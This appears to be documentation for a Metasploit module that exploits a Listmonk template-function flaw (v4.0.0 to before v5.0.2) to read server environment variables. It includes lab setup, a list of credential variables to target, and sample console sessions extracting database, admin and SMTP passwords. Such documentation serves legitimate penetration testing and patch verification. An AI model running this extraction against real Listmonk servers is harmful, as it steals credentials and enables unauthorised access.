## Vulnerable Application

This module exploits insecure Sprig template functions in Listmonk versions >= v4.0.0 and < v5.0.2.
The `env` and `expandenv` functions are enabled by default in campaign templates, allowing
authenticated users with minimal campaign permissions to extract sensitive environment variables
through the campaign preview functionality.

Listmonk is a self-hosted newsletter and mailing list manager. Environment variables in
Listmonk deployments often contain sensitive information such as database credentials,
SMTP passwords, API keys, and admin credentials.

### Required Privileges

For this exploit to work, the authenticated user must have the following privileges:
- `campaigns:get` - Permission to get and view campaigns belonging to permitted lists
- `campaigns:get_all` - Permission to get and view campaigns across all lists

These are minimal privileges that can be assigned to non-admin users in multi-user Listmonk
installations, making this vulnerability particularly dangerous as it allows privilege escalation
through environment variable disclosure.

#### Docker Installation (Vulnerable Version)

To install the vulnerable version, run the following command :

```
curl -LO https://github.com/knadh/listmonk/raw/master/docker-compose.yml
sed -i 's|image: listmonk/listmonk:latest|image: listmonk/listmonk:v5.0.1|' docker-compose.yml
docker compose up
```

#### Vulnerable Versions

- Listmonk >= v4.0.0 and < v5.0.2

#### Patched Versions

- Listmonk >= v5.0.2

## Verification Steps

1. Start msfconsole
2. Do: `use auxiliary/gather/listmonk_env_disclosure`
3. Do: `set RHOSTS [target]`
4. Do: `set USERNAME [username]`
5. Do: `set PASSWORD [password]`
6. Optional: `set ENVVAR [comma-separated environment variables]`
7. Do: `run`
8. You should see extracted environment variable values

## Options

### USERNAME

The Listmonk username for authentication. This must be a valid user account with
the required `campaigns:get` and `campaigns:get_all` permissions.

### PASSWORD

The Listmonk password for authentication.

### ENVVAR

A comma-separated list of environment variable names to extract. If not specified,
the module will automatically attempt to extract a default list of common sensitive
environment variables.

**Default variables extracted (when ENVVAR is not set):**
- `LISTMONK_db__host` - Database host
- `LISTMONK_db__port` - Database port
- `LISTMONK_db__user` - Database username
- `LISTMONK_db__password` - Database password
- `LISTMONK_db__database` - Database name
- `LISTMONK_app__address` - Application address

**Examples of custom variables to target:**
- `LISTMONK_app__admin_username`, `LISTMONK_app__admin_password` - Admin credentials
- `SMTP_HOST`, `SMTP_PORT`, `SMTP_USER`, `SMTP_PASSWORD` - Email server credentials
- `AWS_ACCESS_KEY_ID`, `AWS_SECRET_ACCESS_KEY` - Cloud provider credentials
- `DATABASE_URL`, `REDIS_URL` - Connection strings
- `SECRET_KEY`, `API_KEY` - Application secrets
- `PATH`, `HOME`, `USER` - System environment variables

### CAMPAIGN_NAME

Optional campaign name to use for the temporary campaign created during extraction.
If not specified, a random name will be generated to avoid collisions when running
the module multiple times. The campaign is automatically deleted after extraction.

## Scenarios

### Running Check to Verify Target is Vulnerable

```
msf6 auxiliary(gather/listmonk_env_disclosure) > set RHOSTS 192.168.1.100
RHOSTS => 192.168.1.100
msf6 auxiliary(gather/listmonk_env_disclosure) > set USERNAME admin
USERNAME => admin
msf6 auxiliary(gather/listmonk_env_disclosure) > set PASSWORD adminadmin
PASSWORD => adminadmin
msf6 auxiliary(gather/listmonk_env_disclosure) > check

[*] 192.168.1.100:9000 - The target appears to be vulnerable. Listmonk version 5.0.1 is vulnerable
```

### Extract Default Environment Variables

Running the module without specifying ENVVAR will automatically extract the default
list of common Listmonk environment variables:

```
msf6 > use auxiliary/gather/listmonk_env_disclosure
msf6 auxiliary(gather/listmonk_env_disclosure) > set RHOSTS 127.0.0.1
RHOSTS => 127.0.0.1
msf6 auxiliary(gather/listmonk_env_disclosure) > set USERNAME admin
USERNAME => admin
msf6 auxiliary(gather/listmonk_env_disclosure) > set PASSWORD adminadmin
PASSWORD => adminadmin
msf6 auxiliary(gather/listmonk_env_disclosure) > run

[*] Running module against 127.0.0.1
[*] Targeting http://127.0.0.1:9000/
[+] Login successful
[*] Using default environment variable list (6 variables)
[*] Executing template to extract environment variables...
[+] Environment variable(s) extracted:

LISTMONK_db__host: localhost
LISTMONK_db__port: 5432
LISTMONK_db__user: listmonk_user
LISTMONK_db__password: my_secure_db_password123
LISTMONK_db__database: listmonk
LISTMONK_app__address: 0.0.0.0:9000

[*] Auxiliary module execution completed
```

### Extract Specific Environment Variables

You can target specific environment variables by providing a comma-separated list:

```
msf6 auxiliary(gather/listmonk_env_disclosure) > set ENVVAR LISTMONK_db__password,LISTMONK_app__admin_password,SMTP_PASSWORD
ENVVAR => LISTMONK_db__password,LISTMONK_app__admin_password,SMTP_PASSWORD
msf6 auxiliary(gather/listmonk_env_disclosure) > run

[*] Running module against 127.0.0.1
[*] Targeting http://127.0.0.1:9000/
[+] Login successful
[*] Targeting specific environment variables: LISTMONK_db__password, LISTMONK_app__admin_password, SMTP_PASSWORD
[*] Executing template to extract environment variables...
[+] Environment variable(s) extracted:

LISTMONK_db__password: my_secure_db_password123
LISTMONK_app__admin_password: admin_secret_password
SMTP_PASSWORD: smtp_pass_2024

[*] Auxiliary module execution completed
```

### Extract Single Environment Variable

```
msf6 auxiliary(gather/listmonk_env_disclosure) > set ENVVAR PATH
ENVVAR => PATH
msf6 auxiliary(gather/listmonk_env_disclosure) > run

[*] Running module against 127.0.0.1
[*] Targeting http://127.0.0.1:9000/
[+] Login successful
[*] Targeting specific environment variables: PATH
[*] Executing template to extract environment variables...
[+] Environment variable(s) extracted:

PATH: /usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin

[*] Auxiliary module execution completed
```
